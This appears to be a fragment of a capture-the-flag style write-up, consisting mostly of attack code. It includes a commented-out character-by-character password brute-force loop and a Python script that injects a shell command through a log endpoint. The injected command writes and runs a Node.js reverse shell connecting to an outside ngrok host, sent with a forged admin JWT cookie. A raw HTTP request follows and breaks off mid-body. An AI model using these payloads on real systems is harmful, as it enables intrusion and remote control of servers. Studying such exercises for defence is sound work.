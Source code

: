 ```
#         data_log = {
#             "username": username + "a" * loop,
#             "password": "a" * index + PASSWORD + char
#         }
#         login_response = requests.post(login_url, data=data_log)
#
#         if "Hello" in login_response.text:
#             print("Đăng nhập thành công!")
#             PASSWORD += char
#             print(PASSWORD)
#             index -= 1
#             loop += 1
#             break

import requests
import json

log_url = "http://172.206.89.197:9080/log"

log_data = {"message": "&& echo '(function(){var net = require(\"net\"), cp = require(\"child_process\"), sh = cp.spawn(\"/bin/sh\", []); var client = new net.Socket(); client.connect(16682, \"0.tcp.ap.ngrok.io\", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; })();' > rev.js | bun run rev.js"}

headers = {
    "Cookie": "token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwidXNlcl90eXBlIjoiYWRtaW4iLCJleHAiOjEwMDAwMDAwMDAwfQ.MG6gg_c7eZ-aMS2cIs-SasS8w9Ixvkzi2v_-fS7KfOo",
    "Content-Type": "application/json"
}

response = requests.post(log_url, headers=headers, data= json.dumps(log_data))

print(response.text)

```

![image](https://hackmd.io/_uploads/SkkgV2ErA.png)

![image](https://hackmd.io/_uploads/BJlyNn4HR.png)

![image](https://hackmd.io/_uploads/HyMWU3EH0.png)

![image](https://hackmd.io/_uploads/rkCm_nNS0.png)



```
POST /log HTTP/1.1
Host: 172.206.89.197:9080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwidXNlcl90eXBlIjoiYWRtaW4iLCJleHAiOjEwMDAwMDAwMDAwfQ.MG6gg_c7eZ-aMS2cIs-SasS8w9Ixvkzi2v_-fS7KfOo
Content-Type: application/json
Upgrade-Insecure-Requests: 1
Priority: u=1

{"message":
```